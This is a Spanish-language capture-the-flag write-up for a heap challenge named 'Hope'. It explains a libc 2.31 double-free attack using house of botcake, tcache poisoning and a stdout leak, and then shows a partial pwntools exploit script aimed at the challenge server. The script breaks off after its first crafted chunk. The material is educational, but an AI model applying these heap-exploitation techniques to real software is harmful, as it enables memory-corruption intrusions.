 Hope es un típico "note" challenge que no tuvo “solves”, El binario usa libc 2.31 con un bug de double free. Al no tener función de "print" o "read" por lo que para poder hacer un lekear sobreescribiendo el struct del stdout, usando un house of botcake, Además de hacer un bruteforce de 1/16 a un nibble debido a que el binario tiene PIE. Con lo anterior podemos hacer un leak y luego un tcache poiton + house of botcake para explotar, esta combinacion de tecnicas la puse ya en un post pasado y la llame [House of Plastic Cake](https://dplastico.github.io/sin%20categor%C3%ADa/2021/10/17/Learning-Double-Restrictions-The-house-of-plastic-cake.html) por la combinación de tecnicas que usa. El exploit (con algunos comentarios) es el siguiente.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
index = 0
elf = context.binary = ELF('./land')
context.terminal = ['tmux', 'splitw', '-hp', '75']
libc = elf.libc
def start():
    if args.GDB:
        return gdb.debug('./land', gdbscript=gs)
    if args.REMOTE:
        return remote('146.190.208.80', 1234)
    else:
        return process('./a.out')
r = start()
r.timeout = 0.8
#functions
def add(size, data):
    r.sendline(b"1")
    r.sendlineafter(b"target : ", f"{size}".encode())
    r.sendafter(b"your ammo :", data)
    r.recvuntil(b">")
    global index
    index += 1
    return index - 1    
def delete(index):
    r.sendline(b"2")
    r.sendlineafter(b"destroy : ", f"{index}".encode())
    r.recvuntil(b">")
# exploit
#========= exploit here ===================
for i in range(7):
    add(0x98, b"AAAA")
#botcake?
prev = add(0x98, b"AAAA")
victim = add(0x98, b"BBBB")
guard = add(0x18, b"/bin/sh\0")
for i in range(7):
    delete(i)
delete(victim)
delete(prev)
junk = add(0x98, "CCCC") # to avoid the victim chunk  going to the unsorted bin and trigger other mallocs d free mitigation
add(0x98, "FFFF") # same as above to "triple free"
#double free
delete(victim)
#'house of plastic-cake'
#This add the size field and modify the key field to bypass double free restriction
#WE do this so we can "triple free to have a chunk to comeback later on"
#But most important to push a libc address down the heap to have a pointer to corrupt with the editor chunk
c = add(0xb8, p64(0)*19 +p64(0xa1)+p64(0)+p16(0)) 
```